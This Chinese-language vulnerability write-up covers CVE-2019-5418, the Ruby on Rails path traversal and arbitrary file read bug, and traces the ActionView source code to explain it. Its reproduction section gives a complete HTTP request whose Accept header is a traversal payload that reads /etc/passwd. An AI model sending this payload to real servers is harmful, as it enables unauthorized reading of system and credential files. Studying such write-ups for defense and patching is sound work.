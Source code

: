 （CVE-2019-5418）Ruby on Rails 路径穿越与任意文件读取漏洞
=========================================================

一、漏洞简介
------------

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

二、漏洞影响
------------

Ruby on Rails \< 6.0.0.beta3Ruby on Rails \< 5.2.2.1Ruby on Rails \< 5.1.6.2Ruby on Rails \< 5.0.7.2

三、复现过程
------------

### 漏洞分析

在控制器中通过`render file`形式来渲染应用之外的视图，因此在
actionview-5.2.1/lib/action\_view/renderer/template\_renderer.rb:22
中会根据 `options.key?(:file)`，调用`find_file`来寻找视图。

    module ActionView
      class TemplateRenderer < AbstractRenderer #:nodoc:
        # Determine the template to be rendered using the given options.
          def determine_template(options)
            keys = options.has_key?(:locals) ? options[:locals].keys : []
            if options.key?(:body)
              ...
            elsif options.key?(:file)
              with_fallbacks { find_file(options[:file], nil, false, keys, @details) }
            ...
          end
    end

`find_file`代码如下：

    def find_file(name, prefixes = [], partial = false, keys = [], options = {})
        @view_paths.find_file(*args_for_lookup(name, prefixes, partial, keys, options))
    end

继续跟入`args_for_lookup`函数，用于生成用于查找文件的参数，当其最终返回时会把payload保存在`details[formats]`中：![1.jpg](resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId25.jpg)

此后回到`@view_paths.find_file`并跟入会进入
actionview-5.2.1/lib/action\_view/path\_set.rb：

    class PathSet #:nodoc:
        def find_file(path, prefixes = [], *args)
          _find_all(path, prefixes, args, true).first || raise(MissingTemplate.new(self, path, prefixes, *args))
        end
        private
        # 注，这里的 args 即前面args_for_lookup生成的details
            def _find_all(path, prefixes, args, outside_app)
                prefixes = [prefixes] if String === prefixes
                prefixes.each do |prefix|
                paths.each do |resolver|
                    if outside_app
                    templates = resolver.find_all_anywhere(path, prefix, *args)
                    else
                    templates = resolver.find_all(path, prefix, *args)
                    end
                    return templates unless templates.empty?
                end
                end
                []
            end

由于要渲染的视图在应用之外，因此跟入`find_all_anywhere`

    def find_all_anywhere(name, prefix, partial = false, details = {}, key = nil, locals = [])
        cached(key, [name, prefix, partial], details, locals) do
        find_templates(name, prefix, partial, details, true)
        end
    end

跳过`cached`部分，跟入`find_templates`，这里正式根据条件来查找要渲染的模板：

    # An abstract class that implements a Resolver with path semantics.
    class PathResolver < Resolver #:nodoc:
        EXTENSIONS = { locale: ".", formats: ".", variants: "+", handlers: "." }
        DEFAULT_PATTERN = ":prefix/:action{.:locale,}{.:formats,}{+:variants,}{.:handlers,}"

        ...

        private
            def find_templates(name, prefix, partial, details, outside_app_allowed = false)
                path = Path.build(name, prefix, partial)
                # 注意 details 与 details[:formats] 的传入
                query(path, details, details[:formats], outside_app_allowed)
            end

            def query(path, details, formats, outside_app_allowed)
                query = build_query(path, details)
                template_paths = find_template_paths(query)
                ...
                end
            end

build\_query后如下：![2.jpg](resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId26.jpg)

利用`../`与前缀组合造成路径穿越，利用最后的`{{`完成闭合，经过File.expand\_path解析后组成的query如下:

    /etc/passwd{{},}{+{},}{.{raw,erb,html,builder,ruby,coffee,jbuilder},}

最后`/etc/passwd`被当成模板文件进行渲染，最后造成了任意文件读取。

### 漏洞复线

访问http://www.0-sec.org:3000/robots可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

    GET /robots HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: ../../../../../../../../etc/passwd{{
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![1.png](resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId28.png)
